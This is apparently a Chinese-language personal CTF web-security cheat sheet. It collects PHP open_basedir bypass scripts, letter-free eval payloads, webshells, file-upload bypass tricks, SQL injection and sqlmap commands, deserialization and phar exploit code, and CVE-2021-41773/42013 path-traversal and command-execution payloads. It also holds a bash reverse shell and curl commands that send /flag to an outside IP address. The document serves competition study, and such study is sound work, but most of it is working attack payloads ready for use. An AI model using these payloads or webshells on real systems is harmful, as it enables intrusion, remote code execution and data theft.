> **如果设置了open_basedir，无法看到文件**

```nginx
_=file_put_contents('1.php',"<?php print_r(ini_get('open_basedir').'<br>'); mkdir('test'); chdir('test'); ini_set('open_basedir','..'); chdir('..'); chdir('..'); chdir('..'); ini_set('open_basedir','/'); echo file_get_contents('/flag'); print(1);?> ");

```

##### open_basedir绕过脚本

==将代码写成一行的字符串时，注意将`$`进行转义==

```nginx
# 获取目录
<?php
    print_r(ini_get('open_basedir').'<br>');
    $dir_array = array();
    
    $dir = new DirectoryIterator('glob:///*');
    foreach($dir as $d){
        $dir_array[] = $d->__toString();
    }
    
    $dir = new DirectoryIterator('glob:///.*');
    foreach($dir as $d){
        $dir_array[] = $d->__toString();
    }
    
    sort($dir_array);
    foreach($dir_array as $d){
        echo $d.' ';
    }
?>

<?php
print_r(ini_get('open_basedir').'<br>');
$dir_array = array();

$dir = new FilesystemIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new FilesystemIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
show_source(__FILE__);

?>
```

> 读取文件

```nginx
<?php
    show_source(__FILE__);
    print_r(ini_get('open_basedir').'<br>');
    
    mkdir('test');
    chdir('test');
    ini_set('open_basedir','..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir','/');
    
    echo file_get_contents('/etc/hosts');

?>
```

```nginx
<?php
    show_source(__FILE__);
    
    mkdir("1");chdir("1");
    mkdir("2");chdir("2");
    mkdir("3");chdir("3");
    mkdir("4");chdir("4");
    
    chdir("..");chdir("..");chdir("..");chdir("..");
    
    symlink("1/2/3/4","tmplink");
    symlink("tmplink/../../../../etc/hosts","bypass");
    unlink("tmplink");
    mkdir("tmplink");
    echo file_get_contents("bypass");
?>
```


##### **动态执行**

```nginx
<?php
show_source(__FILE__);
$mess=$_POST['mess'];
if(preg_match("/[a-zA-Z]/",$mess)){
    die("invalid input!");
}
eval($mess);

# 案例
mess=$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]);&_=phpinfo();
mess=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);
&_=phpinfo();
```

##### **取反**

```nginx
然后通过以下进行取反输出：
	echo urlencode(~"system");  ==  %8C%86%8C%8B%9A%92
	echo urlencode(~"ls /"); 	==  %93%8C%DF%D0
然后再把输出的结果拼接：
    (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)
```

##### **异或**

> **异或构造方式**：
> 	使用异或，在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。
> 	所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可

```nginx

```


#### ping命令利用

```nginx
# 原理，使用;分号切割执行多条命令
127.0.0.1;cat /f*
```


#### 反弹shell

```nginx
# 自己的服务器：
nc -lvnp 2333

# 攻击的服务器，101.34.32.151为自己服务器的ip地址
bash -i >& /dev/tcp/112.124.52.200/20000 0>&1
```

#### curl外带

```nginx
# 将http://ichunqiu.com中的flag文件发送到112.124.52.200:20000
curl http://ichunqiu.com -F file=@/flag -x 112.124.52.200:20000

# 请求头外带，会将`cat /flag`发送到指定ip地址
nc -lvnp 6666
curl 112.112.11.11:6666/`cat /flag`
```


#### nginx日志包含

练习环境：[[HNCTF 2022 WEEK2]easy_include](https://www.nssctf.cn/problem/2948)

> 原理：nginx的日志文件中会记录每个每个请求情况
>
> - 使用文件包含这个文件可以查看到日志文件内：`?file=/var/log/nginx/access.log`
>
> - ```nginx
>   49.140.190.75 - - [29/Aug/2023:07:40:29 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.62"
>   ```
>
> - **一般会记录用户的User-Agent，然后可以在User-Agent处写命令**
>
> - `User-Agent: <?php system('cat /ffflllaaaggg'); ?>`


### 代码注入

### 文件包含


### 任意文件读取

**可读文件**

```nginx
/etc/passwd用来判断读取漏洞的存在
/etc/environment	是环境变量配置文件之一。
环境变量可能存在大量目录信息的泄露，甚至可能出现secret key泄露的情况。
/etc/hostname		表示主机名。
/etc/issue		指明系统版本。
/proc	目录
/proc/[pid] 查看进程
/proc/self 查看当前进程
/proc/self/cmdline 当前进程对应的终端命令，也就是程序运行路径
/proc/self/pwd	程序运行目录
/proc/self/		环境变量
/sys/class/net/eth0/address mac地址保存位置

```


### 文件上传

> - 上传文件如果返回结果很快：**客户端检查 否则是服务器端检查**
> - 在上传一个非图片但后缀为图片的文件：**能够上传检查后缀**，**不能上传内容检查**，或者为其他
> - 检查后缀
>   - 可以上传任意后缀：就是有上传黑名单列表
>   - 不能上传任意后缀：就是有上传白名单列表
> - 内容检查
>   - **观察上传成功后和上传前的图片大小变化**
>   - 还有颜色和**文件md5值是否有变化**
>   - **==有变化说明重新渲染了，无变化只读内容==**



#### 客户端检测绕过

> 上传一个`jpg`或者`png`木马，然后抓包修改文件后缀，将其改为`asp、php、jsp`后缀名即可

#### 服务端后缀黑名单

**上传特殊可解析后缀**

```nginx
asp |asa |cer |cdx

aspx |ascx |ashx |asax |asac

# (是否解析需要根据配置文件中设置类型来决定)
php|php2|php3|php4|php5|asis|htaccess|.user.ini|phtm|phtml、pht

jsp|jspx|jspf

htm|html|shtml|pwml|js

vbs|asis|sh|reg|cgi|exe|dll|com|bat|pl|cfc|cfm|ini
```

##### 上传.htaccess

 **.htaccess 文件生效前提条件为：**

- **mod_rewrite** 模块开启
- **AllowOverride All**

**介绍**

.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。

**利用**

```nginx
<FilesMatch "2xin.png">
	# **`SetHandler` 可以强制所有匹配的文件被一个指定的处理器处理**
  # 此时当前目录及其子目录下所有文件都会被当做 php 解析
	SetHandler application/x-httpd-php
</FilesMatch>
```

##### 上传.user.ini

**介绍**

- user.ini是一个能被动态加载的ini文件，这点和php.ini不同

- 修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载

  

**利用**

```nginx
GIF89a
# auto_prepend_file：是在文件前插入；
# auto_append_file：在文件最后插入
auto_prepend_file=xin.png

# 大致意思就是：我们指定一个文件（如xin.png），
# xin.png中写好我们的webshell，
		# 如：GIF98A <?php eval($_REQUEST['a']);?>
		# 然后访问本目录下任意文件附带参数?a=xxx 就可以实现命令执行
		# ?a=phpinfo(); 
		# ?a=system('whoami');
# 那么该文件就会被包含在要执行的php文件中（如index.php），
# 类似于在index.php中插入一句：require(./xin.png);

# 上传成功后需要上传目录中要有一个.php文件，然后去访问它，
# 那么在访问中就会默认执行写在.user.ini中的命令，
```


##### IIS解析漏洞

```nginx
目录解析漏洞：/test.asp/1.jps

文件名解析漏洞：test.asp;.jpg

畸形解析漏洞：test.jpg/*.php
```

##### Nginx解析漏洞

```nginx
畸形解析漏洞：test.jpg/*.php

%00空字节代码解析漏洞

CVE-2013-4547(%20%00)
```

##### Apache解析漏洞

```nginx
文件名解析漏洞：test.php.owf.xdx
```

##### 利用NTFS ADS特性

| 上传的文件名                | 服务器表面现象     | 生成的文件内容       |
| :-------------------------- | :----------------- | :------------------- |
| Test.php:a.jpg              | 生成Test.php       | 空                   |
| Test.php::$DATA             | 生成test.php       | `<?php phpinfo();?>` |
| Test.php::$INDEX_ALLOCATION | 生成test.php文件夹 |                      |
| Test.php::$DATA.jpg         | 生成0.jpg          | `<?php phpinfo();?>` |
| Test.php::$DATA\aaa.jpg     | 生成aaa.jpg        | `<?php phpinfo();?>` |

##### 其他绕过

- **点绕过、空格绕过、后缀双写绕过、后缀大小写绕过、%00绕过、0x00绕过**

- ```nginx
  - GET：
  
    shell.php%00.jpg
  
  - POST（hex里面改）：
  
    shell.php%20%00.jpg
  
    shell.php.
  
    shell.php. .
  
  
  ```

#### 服务器后缀白名单

  ```nginx
  00截断、MIME、点、空格、点空格点、::$DATA
  
  shell.php::$DATA
  
  shell.php
  
  shell.php.
  
  shell.php. .
  
  GET：
  
  shell.php%00.jpg
  
  POST：
  
  （hex里面改）
  
  shell.php%20%00.jpg
  ```

#### 文件内容检查

> 在木马的头部添加允许上传文件类型的头部特征，如：
>
> - GIF图片特征
>
> - ```nginx
>   GIF98A <?php eval($_REQUEST['a']);?>
>   ```
>
> - 存在内容检测php
>
>   - ```nginx
>     GIF89a
>     <script language='php'>eval($_POST['cmd']);</script>
>     ```
>
>     

#### 文件MIME绕过

> **主要是修改关于Content-Type**
>
> ```nginx
> Content-Type：image/jpeg
> ```
>
> 


------


#### 条件竞争

**session.upload_progress进行文件包含**

https://blog.csdn.net/qq_46266259/article/details/128867195

session条件竞争题目：[[第五空间 2021\]EasyCleanup](https://www.nssctf.cn/problem/336)


------


### SQL注入

**特别的**

```nginx
# 特殊的md5字符串 $pass = ffifdyop
select * from 'admin' where password=md5($pass,true)

# ffifdyop，根据函数md5加密后，再次转换为字符串时，会变成'or'6
```


#### sql中可利用的内置函数

```sql
-- 读取本地文件
-- '/etc/passwd [ 查看数据库中所有用户目录]
select load_file('/etc/passwd')

-- 读取隐藏的文件:.bash_history，记录着用户命令记录
select load_file('/home/www/.bash_history')

-- 以16进制输出文件内容
select hex(load_file('/tmp/html/.DS_Store'))

-- handler 遍历读取数据,首先要打开，表明是数字使用【``】标记
handler database open;
handler database read next
```


#### **常用的sql注入playload案例**

```sql
# 显示列名
show databases
show tables
show columns FROM test;

order by 2
/**/order/**/by/**/2

union select 1,database();#
/**/union/**/select/**/1,database();#

# ----------查库名---------
union select 1,group_concat(schema_name) from information_schema.schemata;
/**/union/**/select/**/1,group_concat(schema_name)/**/from/**/information_schema.schemata

# ----------查表名---------
union select 1,group_concat(table_name) from information_schema.tables where table_schema=database();#
/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database();#


# ----------查字段名---------
union select 1,group_concat(table_name) from information_schema.columns where table_schema=database() and table_name='';#
# 或者
select 1, group_concat(column_name),3 from information_schema.columns where table_name='表名'#

/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='alien_code'/**/and/**/table_name='code';#

# ----------查表中所有数据---------
select 1, group_concat(字段名 separator '-'),group_concat(字段名 separator '-') from 表名

# ----------字符串截取---------
substr(flag,1,20)
mid(flag,1,15);
```

#### 报错注入

```sql
admin'^extractvalue(1,concat(0x5c,(select(database()))))%23

```

##### 单引号报错注入

-   **对数据库中的xml文档故意报错，利用【0x7e = ~ 】这种方式，对后台进行一个排序，指定一个参数为null，让它故意报错，将第二个参数中的语句带入数据库执行，最后报错显示执行结果**

```sql
-- MySQL 5.1.5版本以上才支持该函数
^extractvalue(1,concat(0x5c,(select(database()))))%23
and (extractvalue(1,concat(0x7e,(select(user())),0x7e))%23)

# 模版
and extractvalue(1,concat(0x7e,(select 1,group_concat(table_name) from information_schema.tables where table_schema=database())))#
and extractvalue(1,concat(0x7e,(select 1,group_concat(table_name) from information_schema.columns where table_schema=database() and table_name='')))#
```

-   **updatexml**

```nginx
(updatexml(1,concat(0x7e,data(),0x7e),1))#
and updatexml(1,concat(0x7e,(version())),0) --+
and updatexml(1,concat(0x7e,(version())),0) #

and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),0)#
and updatexml(1,concat(0x7e,(select 1,group_concat(table_name) from information_schema.columns where table_schema=database() and table_name='')),0)#
```


#### sqlmap注入命令

```nginx
sqlmap -u “注入地址” -v 1 –-dbs # 列举数据库
sqlmap -u “注入地址” -v 1 –-current-db # 当前数据库
sqlmap -u “注入地址” -v 1 –-users # 列数据库用户
sqlmap -u “注入地址” -v 1 -D “数据库” –-tables # 列举数据库的表名
sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” –-columns # 获取表的列名
sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” -C “字段” –-dump # 获取表中的数据

```


### XSS

### SSRF

### SSTI

#### 基于获取Ip型

- 出现位置一般在获取本机ip并且有回显的地方

- **一般使用到以下两个请求头参数**

  - X-Forwarded-For
  - Client-ip

- ```http
  GET / HTTP/1.1
  Host: node5.anna.nssctf.cn:28242
  Cache-Control: max-age=0
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  X-Forwarded-For:{{system('cat /flag')}}
  Connection: close
  
  ```

  

### CSRF

### XXE

### 反序列化

> **一些特性**
>
> - **php对类名大小写不敏感，所以可以用来绕过固定正则（preg_match_all）**
>
> 

#### php序列化基础

-   **当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup()函数**

```nginx
php魔术方法：
__construct()					函数初始化时调用
__destruct()					函数销毁时调用
__call($fun1,$arg))					执行不可访问会没有的方法时调用
		$fun1：不存在的方法名
		$arg：传入的参数数组

__callStatic()				执行静态对象中的一个不可访问的方法时调用PHP5.3.0以上版本有效，
__isset()					当对不可访问属性调用isset()或empty()时调用
__unset()					当对不可访问属性调用unset()时被调用。
__sleep()						执行serialize()时，先会调用这个函数
	
__set_state()				调用var_export()导出类时自PHP 5.1.0起有效，此静态方法会被调用
__clone()					当对象复制完成时调用
__autoload()				尝试加载未定义的类
	在 __autoload 函数中抛出的异常不能被 catch 语句块捕获
__debugInfo()				打印所需调试信息
__get()						获得一个类的成员变量时调用

```


##### **__wakeup**

- > 触发条件：**执行unserialize()时，先会调用这个函数**
  >
  > 绕过条件：**参数列表个数和实际序列化参数个数不同会跳过触发**

```nginx
__wakeup()						

# 特性
当序列化后的参数列表个数和实际序列化参数个数不同会跳过这个__wakeup()函数
	
# 举例：如某个对象序列化值为：
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

# 修改为：如下就不会执行wakeup()函数
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

```

##### **__toString**

> 触发条件：**类被当成字符串时触发**

```nginx
# 触发调用的情况，大部分情况是存在隐式转换调用了toString方法
1、对对象进行echo、print操作会触发__toSting
2、声明的变量被赋值了一个对象，然后与字符串做弱类型比较会触发
3、声明的变量被赋值了一个对象，然后与正则匹配会触发
4、声明的变量被赋值了一个对象，然后与strtolower()函数使用会触发
```

##### **__get**

> 触发条件：**访问一个类中的属性不存在或者privte 的时候** 会被触发。

```nginx
# 触发案例
class Example {
    private $data = [];

    public function __get($name) {
        if (array_key_exists($name, $this->data)) {
            return $this->data[$name];
        } else {
            echo "Property '{$name}' does not exist.";
        }
    }
}

$example = new Example();
echo $example->property;
```


##### **__set**

```nginx
__set($name, $value)						设置一个类的成员变量时调用
    $name：被设置的属性名称
    $value：被设置的属性值

# 案例
class MyClass {
    private $data = [];

    public function __set($name, $value) {
        // 设置属性时将其存储到指定的位置
        $this->data[$name] = $value;
    }
}

// 创建对象并设置属性
$obj = new MyClass();
$obj->property = "value";

// 在上述代码中，当通过 $obj->property = "value" 为对象设置属性时，
// 会调用 MyClass 类中的 __set() 方法，并将属性名 "property" 和属性值 "value" 作为参数传入。
// 在 __set() 方法内部，我们将属性名和属性值存储到对象的 $data 数组中。
```

##### **__invoke**

> **当一个对象被当函数一样调用的时候** 

```nginx
# 例如如下这样
$a = new test();
$a();		

# 内置参数使用
class MyClass {
   public function __invoke($arg) {
      echo "您传入的参数为： $arg";
   }
}

$obj = new MyClass();
$obj('Hello World!'); // 将输出： 您传入的参数为： Hello World!
```

##### **__call**

> 触发条件：调用对象中不存在的方法时调用

```nginx
class MyClass {
   public function __call($method, $args) {
      echo "您所调用的方法 $method 不存在！";
   }
}

$obj = new MyClass();
$obj->undefinedMethod(); // 将输出： 您所调用的方法 undefinedMethod 不存在！
```

#### 反射序列化

> 代表题目：2023云演：**[unserialize](https://www.yunyansec.com/#/experiment/expdetail/6)**

```php
<?php
highlight_file(__FILE__);
header("Content-type:text/html;charset=utf-8");
require_once "waf.php";
error_reporting(0);
class getFlag{
    private $password;
    private $cmd;
    public function __destruct(){
        if($this->password=="‮⁦  //how to change the private variables⁩⁦secret"){
            system($this->cmd);
        }
    }
}
$a = $_GET['a'];
if(isset($_GET['a'])){
    @eval(waf($a));
}
?>
# 只能使用
getProperty，ReflectionObject，getFlag，getProperty，setAcessible，setValue这些函数，
```

```php
$flag = new getFlag();
$reflectionObject = new ReflectionObject($flag);
# 获取属性
$reflectionProperty = $reflectionObject->getProperty('password');
# 设置可访问
$reflectionProperty->setAccessible(true);
# 设置值
$reflectionProperty->setValue($flag, "‮⁦  //how to change the private variables⁩⁦secret");
$reflectionProperty = $reflectionObject->getProperty('cmd');
$reflectionProperty->setAccessible(true);
$reflectionProperty->setValue($flag, 'cat /f*');

# 或者非预期解
passthru%0a(%27cat%20/flag%27);
```

#### phar反序列化

> - 绕过后缀检查：
>   - **php识别phar文件是通过其文件头的stub，所以可以更改为其他允许通过的后缀**
>
> - 内容检查绕过：
>   - 将phar文件使用 gzip 命令进行压缩，压缩后的文件中没有`__HALT_COMPILER()`
>
> - 绕过__wakeup：
>
>   - `X-Powered-By: PHP/5.5.38`老版本PHP，可以改变成员个数来绕过wakeup
>
>   - **010Editor打开phar文件修改序列化字符串的成员个数，由于phar文件带有签名校验，需要把签名部分也改了，否则会报错。**
>
>   - **重新生成签名代码**
>
>     - ```nginx
>       from hashlib import sha1
>       import gzip
>                   
>       with open('phar.png', 'rb') as file:
>           f = file.read()
>       s = f[:-28]  # 获取要签名的数据
>       h = f[-8:]  # 获取签名类型以及GBMB标识
>       new_file = s + sha1(s).digest() + h  # 数据 + 签名 + (类型 + GBMB)
>       f_gzip = gzip.GzipFile("1.png", "wb")
>       f_gzip.write(new_file)
>       f_gzip.close()
>       ```
>
>   - ==想要phar文件生效，需要phar://协议去读取，可看题：[NSSRound#4 SWPU]1zweb==

**做题方法**

- 首先反推，看flag的位置，然后哪里能够直接获取到flag

详细：[Week4 UnserializeThree 200](G:\各科笔记\web安全笔记\Buuctf刷题\公开赛道\Week4\Week4 UnserializeThree 200.md)

> ==phar文件是php中类似java中jar的东西，包括所有的可执行、可访问的文件==
>
> **PHP 5.3 或更高版本，那么Phar后缀文件是默认开启支持的**

**基础构造代码**

```nginx
<?php
    $payload = '<?php eval($_POST["shell"]); ?>'  # 一句话木马
    $phar = new Phar("example.phar"); # 后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); # 设置stub
    $phar->addFromString("67.php", "$payload"); # 添加要压缩的文件
    # $phar->setMetadata(...); // phar反序列化用得着，此处用不着
    $phar->stopBuffering();
?>
```

**反序列化构造代码**

```nginx
<?php

class Evil{
    # 到时候使用这个POST参数进行获取flag
    public $cmd ='\reval(\$_POST[1];)';
    public $cmd ='\rsystem('cat /flag');)';
}

$obj = new Evil();

$phar = new Phar('test.phar');
$phar -> startBuffering(); // 开始缓冲 Phar 写操作
$phar -> setStub('GIF89a<?php __HALT_COMPILER();?>'); // 设置stub，添加gif文件头

$phar ->addFromString('test.txt','test'); // 要压缩的文件

$phar -> setMetadata($obj);  // 将自定义meta-data存入manifest

$phar -> stopBuffering(); // 停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
```

**利用**

> - 如果不能直接上传phar包，可以修改后缀为zip，或者是其他的
> - 一般会返回上传文件的路径，然后使用**phar://**协议访问phar包，因为phar协议只认识phar的文件特征，只要符合特征就会解压

### 其他


## 代码审计

### **cms审计**

**i春秋qqcms**

```nginx
主要是根据项目中自定义的模板规则进行注入
```


## CVE

### CVE-2021-41773

- **出现原因：在其2.4.49版本中引入了`ap_normalize_path`函数，导致了路径穿越漏洞。**

- **影响范围：仅影响2.4.49版本**

- **在服务器开启cgi或cgid模块的情况下，该漏洞可执行任意命令**

#### 攻击利用

> **`/icons/`目录是一个存在且可访问的目录，测试时也可改为其他目录如`/cgi-bin/`**
>
> ==实际用哪个取决于环境==

```nginx
# 读取/etc/passwd 文件，实际在bp使用注意url编码情况，passwd也有可能没有权限读取
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

# 进制命令执行
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
		# post中输入
		echo Content-Type: text/plain; echo; ls
```


### CVE-2021-42013

- **介绍**

  - > Apache HTTP Server 2.4.50版本对CVE-2021-41773漏洞进行了修复，
    >
    > 由于修复不完善，攻击者可绕过补丁，读取web目录之外的文件，在开启cgi模块时，可执行任意命令。

- **影响范围**

  - > 影响`Apache HTTP Server 2.4.49和2.4.50`两个版本，**利用条件和CVE-2021-41773相同**


#### **攻击利用**

- **变化**

  - 在CVE-2021-41773中使用`/.%2e/%2e%2e/%2e%2e`进行路径穿越，在2.4.50中已无法使用，
  - 但对`2e`再进行url编码，即`%32%65`，仍可实现路径穿越

- ```nginx
  # 文件读取
  /icons/.%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
  
  # 命令执行
  /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh
  		# post中输入
  		echo Content-Type: text/plain; echo; ls
  ```

  

## 一些绕过

-   绕过`shell_exec()`函数的特性

-   shell_exec() 函数实际上仅是反撇号 【`】 操作符的变体

-   ```nginx
    //命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。
    $resultData = shell_exec($command);
    ```

-   用于尝试代表题目：[GXYCTF 2019]Ping Ping Ping

    -   linux下

        -   ```bash
            # 空格过滤
            ${IFS}	代替空格
            $IFS$9	代替空格
            $IFS$1	代替空格
            常见的绕过符号有：
            $IFS$9 、${IFS} 、%09(php环境下)、 重定向符<>、<、
            
            # $IFS在linux下表示分隔符，如果不加{}则bash会将IFS解释为一个变量名，加一个{}就固定了变量名，
            # $IFS$9后面之所以加个$是为了起到截断的作用
            ```

        -   内联执行

            -   ```nginx
                在linux系统中，反引号是作为内联执行，输出查询结果的内容。
                比如:
                	用ls查询出index.php。那么`ls`就代表了index.php这个文件,如果存在多个文件那么就代表这多个文件，使用cat命令去读，会读所有的文件
                ls
                cat `ls`
                ```

        -   base64编码绕过

        -   设置变量名

        -   单双引号绕过

-   `exec()`函数特性（一般考察无回显 RCE）

-   **exec 执行系统外部命令时不会输出结果，而是返回结果的最后一行**

    -   ```nginx
        # 不直接输入结果内容，命令执行结果的最后一行内容，
        # 第二个参数可获取到所有返回结果，每行结果作为一个数组记录，
        # 第三个参数返回命令执行的状态码，0代表成功1失败
        $resultData =exec($command,$output,$returnVal);
        	一般执行是没有回显的，但是可以搭配tee命令使用
        tee命令：
        	是将想要执行的命令写入到一个文件中，然后再去访问这个文件就会执行写入的命令
        	如输入命令：ls /|tee 1.txt
        	然后再通过：http://url/1.txt 就会返回执行ls / 的结果
        ```

    -   ```nginx
        利用绕过：
        如存在以下过滤：
        if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
            {}
        通过过滤会执行：exec($url);
        	绕过方法：
        		没有过滤掉 \ ,所有可以通过添加\突破限制
        		由于没有回显所有可以考虑配合linux中的tee命令将命令写入文件在访问获取
        ```

        

#### 1、ping命令相关的命令执行

**正常情况有五种写法**

```bash
127.0.0.1&&+code	# 左边命令的值为真执行左边，否则执行右边
127.0.0.1&+code		# &表示将任务置于后台执行
127.0.0.1||+code	# 左边的命令返回假才执行右边的
127.0.0.1|+code		# |表管道，上一条命令的输出，作为下一条命令的参数
127.0.0.1;+code		# 多行语句用换行区分代码块，单行语句用分号区分
	# 代表题目：[GXYCTF 2019]Ping Ping Ping
```

#### 2、无回显RCE

**做题思路**：

1.   利用dnslog带外
2.   写马
3.   反弹shell
4.   写文件然后访问文件


